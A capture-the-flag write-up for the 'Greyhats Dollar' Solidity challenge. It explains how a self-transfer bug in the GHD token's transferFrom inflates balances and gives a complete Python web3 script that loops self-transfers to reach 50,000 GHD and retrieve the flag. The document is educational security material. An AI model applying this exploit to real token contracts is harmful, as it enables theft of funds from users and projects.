

# Greyhats Dollar

> Worried about inflation? Introducing GreyHats Dollar (GHD), the world's first currency with deflation built-in! Backed by GREY tokens, GHD will automatically deflate at a rate of 3% every year.
> 
> Author: MiloTruck

Solution:

We are given with the Solidity source files.

`Setup.sol`
```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import { GREY } from "./lib/GREY.sol";
import { GHD } from "./GHD.sol";

contract Setup {
    bool public claimed;

    // GREY token
    GREY public grey;
    
    // Challenge contracts
    GHD public ghd;
    
    // Note: Deflation rate is set to 3% per year
    uint256 public constant DEFLATION_RATE = 0.03e18;

    constructor() {
        // Deploy the GREY token contract
        grey = new GREY();

        // Deploy challenge contracts
        ghd = new GHD(address(grey), DEFLATION_RATE);
    }

    // Note: Call this function to claim 1000 GREY for the challenge
    function claim() external {
        require(!claimed, "already claimed");
        claimed = true;
        
        grey.mint(msg.sender, 1000e18);
    }

    // Note: Challenge is solved when you have at least 50,000 GHD
    function isSolved() external view returns (bool) {
        return ghd.balanceOf(msg.sender) >= 50_000e18;
    }
}
```

So the aim of this challenge is to have at leat 50,000 GHD tokens. Now, how do we do that?

Taking a look at [GHD.sol](GHD.sol)...
```javascript
/**
 * @notice Mint GHD in exchange for the underlying asset.
 *
 * @param amount  The amount of GHD to mint.
 */
function mint(uint256 amount) external update {
    uint256 _shares = _GHDToShares(amount, conversionRate, false);

    totalShares += _shares;
    shares[msg.sender] += _shares;

    underlyingAsset.transferFrom(msg.sender, address(this), amount);

    emit Transfer(address(0), msg.sender, amount);
}
```
We can mint GHD tokens using an underlying asset, which is the GREY token based on the constructor of the `Setup` contract earlier: `ghd = new GHD(address(grey), DEFLATION_RATE);`

The only way to get GREY tokens is via claiming using the `Setup` contract, so we should do that first.

Then, to be able to mint, we need to give approval for the `GHD` token contract to spend our GREY tokens, then we can proceed with the mint transaction.

Alright, so we have our initial steps. Now, what to do next? Where's the exploit?

```javascript
/**
 * @notice Transfer GHD to another address.
 *
 * @param to      The address that receives GHD.
 * @param amount  The amount of GHD to transfer.
 * @return        Whether the transfer succeeded.
 */
function transfer(address to, uint256 amount) external update returns (bool) {
    return transferFrom(msg.sender, to, amount);
}

/**
 * @notice Transfer GHD from one address to another.
 *
 * @param from    The address that transfers GHD.
 * @param to      The address that receives GHD.
 * @param amount  The amount of GHD to transfer.
 * @return        Whether the transfer succeeded.
 */
function transferFrom(
    address from,
    address to,
    uint256 amount
) public update returns (bool) {
    if (from != msg.sender) allowance[from][msg.sender] -= amount;

    uint256 _shares = _GHDToShares(amount, conversionRate, false);
    uint256 fromShares = shares[from] - _shares;
    uint256 toShares = shares[to] + _shares;
    
    require(
        _sharesToGHD(fromShares, conversionRate, false) < balanceOf(from),
        "amount too small"
    );
    require(
        _sharesToGHD(toShares, conversionRate, false) > balanceOf(to),
        "amount too small"
    );

    shares[from] = fromShares;
    shares[to] = toShares;

    emit Transfer(from, to, amount);

    return true;
}
```

The `transfer` (-> `transferFrom`) function is interesting...

Let's say we have 1,000 GHD tokens. If we transfer 500 GHD tokens to ourself it shouldn't increase...however, the logic is flawed here.

```
uint256 _shares = _GHDToShares(amount, conversionRate, false);
uint256 fromShares = shares[from] - _shares;
uint256 toShares = shares[to] + _shares;

...

shares[from] = fromShares;
shares[to] = toShares;
```

With our example earlier, the current value of `shares[from]` and `shares[to]` is only 1,000 tokens. So let's say the calculated `_shares` is 499 since we want to transfer 500 and we have to take into consideration the deflation rate.

At `uint256 toShares = shares[to] + _shares;`, it basically adds our 1,000 tokens + the 499 new ones. Why? Because the assignment/updating part happens later at
```
shares[from] = fromShares;
shares[to] = toShares;
```

So even if it is deducted via `shares[from] = fromShares;`, it will be useless since it will be added back again.

```javascript
uint256 _shares = _GHDToShares(amount, conversionRate, false); // 499
uint256 fromShares = shares[from] - _shares; // 1000 - 499 = 501
uint256 toShares = shares[to] + _shares; // 1000 + 499 = 1499

...

shares[from] = fromShares; // 501
shares[to] = toShares; // 1499
```

Infinite money!

I decided to use a Python script to solve this

```python
from web3 import Web3
from pwn import *
import warnings

warnings.filterwarnings("ignore", category=BytesWarning)

# From challenge server
uuid = input('Enter UUID: ')

# Connect to Ethereum node
rpcURL = input('Enter RPC endpoint: ')
web3 = Web3(Web3.HTTPProvider(rpcURL))

# Setting up account
privateKey = input('Enter private key: ')
account = web3.eth.account.from_key(privateKey)

# Challenge contract address
setupContractAddress = Web3.to_checksum_address(input('Enter setup contract address: '))

# Contract ABI for setup contract via Remix
setupContractABI = [
    {
		"inputs": [],
		"name": "claim",
		"outputs": [],
		"stateMutability": "nonpayable",
		"type": "function"
	},
    {
		"inputs": [],
		"name": "ghd",
		"outputs": [
			{
				"internalType": "contract GHD",
				"name": "",
				"type": "address"
			}
		],
		"stateMutability": "view",
		"type": "function"
	},
	{
		"inputs": [],
		"name": "grey",
		"outputs": [
			{
				"internalType": "contract GREY",
				"name": "",
				"type": "address"
			}
		],
		"stateMutability": "view",
		"type": "function"
	},
	{
		"inputs": [],
		"name": "isSolved",
		"outputs": [
			{
				"internalType": "bool",
				"name": "",
				"type": "bool"
			}
		],
		"stateMutability": "view",
		"type": "function"
	}
]

# Create the setup contract instance
setupContract = web3.eth.contract(address=setupContractAddress, abi=setupContractABI)

# Retrieve GREY token contract address
greyTokenContractAddress = setupContract.functions.grey().call()

# Contract ABI for token via Remix
greyTokenABI = [
	{
		"inputs": [
			{
				"internalType": "address",
				"name": "spender",
				"type": "address"
			},
			{
				"internalType": "uint256",
				"name": "amount",
				"type": "uint256"
			}
		],
		"name": "approve",
		"outputs": [
			{
				"internalType": "bool",
				"name": "",
				"type": "bool"
			}
		],
		"stateMutability": "nonpayable",
		"type": "function"
	},
	{
		"inputs": [
			{
				"internalType": "address",
				"name": "",
				"type": "address"
			}
		],
		"name": "balanceOf",
		"outputs": [
			{
				"internalType": "uint256",
				"name": "",
				"type": "uint256"
			}
		],
		"stateMutability": "view",
		"type": "function"
	}
]

greyTokenContract = web3.eth.contract(address=greyTokenContractAddress, abi=greyTokenABI)

# Retrieve GHD token contract address
ghdTokenContractAddress = setupContract.functions.ghd().call()

ghdTokenABI = [
	{
		"inputs": [
			{
				"internalType": "address",
				"name": "user",
				"type": "address"
			}
		],
		"name": "balanceOf",
		"outputs": [
			{
				"internalType": "uint256",
				"name": "",
				"type": "uint256"
			}
		],
		"stateMutability": "view",
		"type": "function"
	},
	{
		"inputs": [
			{
				"internalType": "uint256",
				"name": "amount",
				"type": "uint256"
			}
		],
		"name": "mint",
		"outputs": [],
		"stateMutability": "nonpayable",
		"type": "function"
	},
	{
		"inputs": [
			{
				"internalType": "address",
				"name": "to",
				"type": "address"
			},
			{
				"internalType": "uint256",
				"name": "amount",
				"type": "uint256"
			}
		],
		"name": "transfer",
		"outputs": [
			{
				"internalType": "bool",
				"name": "",
				"type": "bool"
			}
		],
		"stateMutability": "nonpayable",
		"type": "function"
	}
]

ghdTokenContract = web3.eth.contract(address=ghdTokenContractAddress, abi=ghdTokenABI)


###########################################################################################################

def signAndSendTx(txType, transactionData):
	signedTxn = web3.eth.account.sign_transaction(transactionData, private_key=privateKey)
	txnHash = web3.eth.send_raw_transaction(signedTxn.rawTransaction)
	txnReceipt = web3.eth.wait_for_transaction_receipt(txnHash)
	print(f'Transaction ({txType}) successful with hash: {txnReceipt.transactionHash.hex()}')

def claim():
	gasEstimate = setupContract.functions.claim().estimate_gas({'from': account.address})

	transaction = setupContract.functions.claim().build_transaction({
		'from': account.address,
		'nonce': web3.eth.get_transaction_count(account.address),
		'gas': gasEstimate,
		'gasPrice': web3.eth.gas_price
	})

	signAndSendTx('claim', transaction)

def approve():
	# Approve GHD to take GREY tokens from us to be able to mint GHD tokens later. 999999000000000000000000 (wei) to 999999 tokens
	gasEstimate = greyTokenContract.functions.approve(ghdTokenContractAddress, 999999000000000000000000).estimate_gas({'from': account.address})

	transaction = greyTokenContract.functions.approve(ghdTokenContractAddress, 999999000000000000000000).build_transaction({
		'from': account.address,
		'nonce': web3.eth.get_transaction_count(account.address),
		'gas': gasEstimate,
		'gasPrice': web3.eth.gas_price
	})

	signAndSendTx('approve', transaction)

def mint():
	# Grab GREY tokens balance first
	greyBalance = greyTokenContract.functions.balanceOf(account.address).call()

	# Mint GHD tokens using all of our GREY balance
	gasEstimate = ghdTokenContract.functions.mint(greyBalance).estimate_gas({'from': account.address})

	transaction = ghdTokenContract.functions.mint(greyBalance).build_transaction({
		'from': account.address,
		'nonce': web3.eth.get_transaction_count(account.address),
		'gas': gasEstimate,
		'gasPrice': web3.eth.gas_price
	})

	signAndSendTx('mint', transaction)


def transfer(amount):
	# Exploit time :D
	gasEstimate = ghdTokenContract.functions.transfer(account.address, amount).estimate_gas({'from': account.address})

	transaction = ghdTokenContract.functions.transfer(account.address, amount).build_transaction({
		'from': account.address,
		'nonce': web3.eth.get_transaction_count(account.address),
		'gas': gasEstimate,
		'gasPrice': web3.eth.gas_price
	})

	signAndSendTx('transfer', transaction)


###########################################################################################################


claim()
approve()
mint()

isSolved = False

while not isSolved:
	ghdBalance = ghdTokenContract.functions.balanceOf(account.address).call()
	if web3.from_wei(ghdBalance, 'ether') >= 50000:
		isSolved = True
		break
	transferAmount = web3.from_wei(ghdBalance, 'ether') - 1
	transfer(web3.to_wei(transferAmount, 'ether'))

print(f'Getting flag')

conn = remote('challs.nusgreyhats.org', 30201)
conn.sendlineafter('action? ', '3')
conn.sendlineafter('uuid please: ', uuid)
print(conn.recvall().decode())
conn.close()
```



Boom!

Flag: `grey{self_transfer_go_brrr_9e8284917b42282d}`